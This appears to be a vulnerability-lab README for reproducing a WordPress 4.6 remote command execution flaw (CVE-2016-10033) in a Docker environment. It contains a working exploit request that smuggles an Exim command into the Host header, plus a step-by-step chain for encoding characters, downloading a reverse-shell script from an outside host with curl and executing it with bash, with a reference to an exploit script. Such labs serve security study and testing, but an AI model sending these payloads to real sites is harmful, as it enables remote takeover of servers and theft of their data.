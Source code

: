 # Wordpress 4.6 Arbitrary Command Execution Vulnerability (PwnScriptum)

## Principle

Reference https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## test environment

Compile and run the test environment

```
Docker-compose build
Docker-compose up -d
```

Since Mysql initialization takes a while, please wait. After running successfully, open the site, initialize the administrator username and password and use it (the database is configured and not automatically updated).

## Testing and EXP use

Send the following packet, you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10 }{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

Wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

But in actual use, there are still some pits that need to be stepped on. There are several specific pits:

1. The executed command cannot contain a large number of special characters, such as ``, quotation marks, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need to know the username of an existing user

To solve these pits, the vulnerability author came up with the `${substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log}}` A method of replacing spaces.

However, there are still a lot of characters that can't be used, so we need to put the command to be executed on the third-party website, and then download it to /tmp by `curl -o /tmp/rce example.com/shell.sh`. In the directory, go to execute.

Therefore, the overall utilization process is as follows:

1. Write the exp of the bounce shell and put it on a web page. Have the following requirements:
  - Uppercase letters of the entire url will be converted to lowercase, so uppercase and less sensitive systems should not use uppercase letters for file paths.
  - Access to this page cannot be jumped because the parameter for follow jump is `-L` (uppercase)
2. Splice into the command `/usr/bin/curl -o/tmp/rce example.com/shell.sh` and the command `/bin/bash /tmp/rce`
3. Convert the spaces and `/` in the above command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`
4. Socket the HTTP header into the HTTP header: `target(any -froot@localhost -be ${run{command}} null)`
5. Send the two stitched packets in sequence

I will write the above process as [exp script] (exploit.py), modify the target in the script to your target, user to an existing user, and `shell_url` to the URL where you placed the payload. (Or directly target as the first parameter, `shell_url` as the second parameter)

Execute to get the shell:

![](1.png)
